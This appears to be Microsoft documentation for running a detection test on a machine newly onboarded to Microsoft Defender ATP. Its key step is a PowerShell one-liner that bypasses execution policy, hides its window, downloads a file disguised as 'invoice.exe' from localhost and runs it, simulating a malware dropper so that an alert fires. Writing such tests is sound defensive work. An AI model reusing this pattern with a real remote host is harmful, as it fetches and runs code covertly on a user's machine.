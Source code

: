 ```yaml
---
title: Run a detection test on a newly onboarded Microsoft Defender ATP machine
description: Run the detection script on a newly onboarded machine to verify that it is properly onboarded to the Microsoft Defender ATP service.
keywords: detection test, detection, powershell, script, verify, onboarding, windows defender advanced threat protection onboarding, clients, servers, test
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: w10
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: M365-security-compliance 
ms.topic: article
---
```


# Run a detection test on a newly onboarded Microsoft Defender ATP machine 

**Applies to:**
- Supported Windows 10 versions
- Windows Server 2012 R2
- Windows Server 2016
- Windows Server, version 1803
- Windows Server, 2019
- [Microsoft Defender Advanced Threat Protection (Microsoft Defender ATP)](https://go.microsoft.com/fwlink/p/?linkid=2069559)


Run the following PowerShell script on a newly onboarded machine to verify that it is properly reporting to the Microsoft Defender ATP service.

1. Create a folder:  'C:\test-WDATP-test'.
2. Open an elevated command-line prompt on the machine and run the script:

    a.  Go to **Start** and type **cmd**.

    b.  Right-click **Command Prompt** and select **Run as administrator**.

    ![Window Start menu pointing to Run as administrator](images/run-as-admin.png)

3. At the prompt, copy and run the following command:

    ```
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
    ```

The Command Prompt window will close automatically. If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded machine in approximately 10 minutes.

## Related topics
- [Onboard Windows 10 machines](configure-endpoints.md)
- [Onboard servers](configure-server-endpoints.md)
